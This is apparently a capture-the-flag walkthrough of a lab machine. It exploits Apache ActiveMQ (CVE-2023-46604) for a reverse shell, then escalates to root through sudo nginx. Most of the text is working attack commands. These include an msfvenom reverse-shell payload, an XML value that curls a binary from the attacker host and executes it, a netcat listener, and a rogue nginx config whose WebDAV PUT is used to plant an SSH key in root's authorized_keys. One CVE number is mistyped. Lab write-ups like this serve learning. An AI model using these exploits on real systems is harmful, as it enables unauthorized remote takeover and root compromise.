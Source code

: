 

Firstly, the Apache ActiveMQ is on a port which is not grabbed by my standard nmap command:

```
nmap -sC -sV {ip}
```

This is a more exhaustive nmap search of all ports sending at least 1000 packets per second, with the timing template being 'insane':

```
nmap -p- --min-rate=1000 -T4 {ip}
```

Then run nmap with the -sC and -sV flags against the ports you find.

There is a repo on github that with code to help us exploit the Apache ActiveMQ vulnerability CVE-2023-46606:

```
wget https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-
ActiveMQ/archive/refs/heads/main.zip
unzip main.zip
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main/
```

We need to create and ELF payload via msfvenom:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.48 LPORT=4444 -f elf -o test.elf
```

Edit the poc-linux.xml file, changing the ip address to the webserver:

```
<value>curl -s -o test.elf http://10.10.14.48:8001/test.elf; chmod +x
./test.elf; ./test.elf</value>
```

Start an http server and netcat listener

```
python3 -m http.server 8001 &
nc -lvvp 4444
```

Run the github repo:

```
go run main.go -i 10.129.230.87 -p 61616 -u http://10.10.14.48:8001/poc-linux.xml
```

This gets us user access to the attacking box.

For Privilege Escalation, we can run:

```
sudo -l 

/usr/sbin/nginx
```

We learn that this user can run the nginx configuration file. 

We create pwn.conf in a temp directory by typing the following into the terminal:

```
cat << EOF> /tmp/pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;

events {
        worker_connections 768;

}  
http {

    server {
        listen 1337;

        root /;
        autoindex on;

        dav_methods PUT;
    }

}
EOF
sudo nginx -c /tmp/pwn.conf
```

This was a challenge because normally I would use vim to create and edit a file, but I was not able to do this on the attacking box. After running `cat << EOF>> /tmp/pwn.conf`, I typed in the file above line by line, ending the input with EOF. This could be a useful technique in the future when editing with vim doesn't work on a target box.

We run the following commands to get root access:

```
$ssh-keygen

$curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"

$ssh -i root root@localhost

$whoami
root
```
I can get the root flag by running `cat /root/root.txt` 
